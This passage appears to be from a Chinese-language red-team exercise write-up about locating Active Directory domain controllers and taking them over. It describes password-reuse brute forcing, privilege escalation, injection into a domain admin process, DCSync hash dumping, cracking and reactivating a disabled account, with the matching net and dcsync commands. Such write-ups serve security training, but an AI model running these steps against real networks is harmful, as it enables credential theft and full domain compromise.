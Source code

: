 ```php
[*]192.168.10.38 #非真实域控ip  
   [->]D1-Prod-AD-P01  
   [->]192.168.10.38  
     
[*]192.168.10.20 #非真实域控ip  
   [->]AD  
   [->]192.168.10.20
```

2、域内主机 DNS 一般就是域控地址

接着可以通过该机器是否开放53和389端口进行进一步确认

这次攻防演练的其中一个目标，通过密码复用爆破成功的某台机器里，刚好存在着域管进程，提权到system权限后注入到域管进程，通过Dcsync成功获取域管密码的hash值，其中一个被禁用的账户刚好可以通过cmd5解出，解出明文密码并激活账户，成功登录两台域控机器，除此以外还可以尝试域漏洞、NTLM中继等

```php
net group "domain admins" /domain  
dcsync domain xxxx  
shell net user xxxx  
shell net user xxxx /active:yes /domain
```

![image_CbIuSx-DB0.png](assets/1698900866-b0b2c111a53f65d77853cdd16cbc6ecb.png)
